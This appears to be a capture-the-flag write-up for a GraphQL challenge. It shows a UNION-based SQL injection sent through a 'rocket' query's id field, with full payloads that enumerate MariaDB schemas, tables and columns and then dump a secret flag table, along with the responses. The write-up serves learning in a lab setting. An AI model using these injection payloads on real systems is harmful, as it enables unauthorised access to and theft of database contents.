






In this challenge, I learned to use [InQL - GraphQL Scanner](https://portswigger.net/bappstore/296e9a0730384be4b2fffef7b4e19b1f), an extension for Burp Suite that is very helpful with `GraphQL`.

The idea in this challenge is to exploit injection in the backend, in our case we can find simple `SQL Injection`.

First, I used `InQL` to scrap the table, we can easily send this query for the repeater.



The query we sends it's:
```gql
query rocket {
    rocket(id: "1") {
        country
        id
        is_active
        name
    }
}
```

However, if we supply instead of `"1"`, this input: `"50 union select (select 'BLA'),'1','1','1'"`, we can get the `SQLi`.

So, this will be our payload:
```gql
query rocket {
    rocket(id: "50 union select (select 'BLA'),'1','1','1'") {
        country
        id
        is_active
        name
    }
}
```
And as you can see, we get the `BLA` back in the results.



Note, I've detected this is `MariaDB` using the error messages I got, we giving `"1 ' "`, same for the number of columns I need to supply.

Now, we need to find the flag:

#### Schema
```sql
select group_concat(schema_name) from information_schema.SCHEMATA
```

Full payload:
```gql
query rocket {
    rocket(id: "50 union select (select group_concat(schema_name) from information_schema.SCHEMATA),'1','1','1'") {
        country
        id
        is_active
        name
    }
}
```

Response:
```sql
information_schema,graphql_db,secret_db
```



#### Tables
```sql
select group_concat(table_name) from information_schema.tables where table_schema='secret_db'
```

Full payload:
```gql
query rocket {
    rocket(id: "50 union select (select group_concat(table_name) from information_schema.tables where table_schema='secret_db'),'1','1','1'") {
        country
        id
        is_active
        name
    }
}
```

Response:
```sql
flag
```



#### Columns
```sql
select group_concat(column_name) from information_schema.columns where table_name='flag'
```

Full payload:
```gql
query rocket {
    rocket(id: "50 union select (select group_concat(column_name) from information_schema.columns where table_name='flag'),'1','1','1'") {
        country
        id
        is_active
        name
    }
}
```

Response:
```sql
id,value
```



#### FLAG
```sql
select group_concat(id,'~~~~~',value) from secret_db.flag
```

Full payload:
```gql
query rocket {
    rocket(id: "50 union select (select group_concat(id,'~~~~~',value) from secret_db.flag),'1','1','1'") {
        country
        id
        is_active
        name
    }
}
```

Response:
```sql
1~~~~~RM{y3s_y0u_can_1nj3ct_SQL_1n_gr@phql}
```



**Flag:** **_`RM{y3s_y0u_can_1nj3ct_SQL_1n_gr@phql}`_**
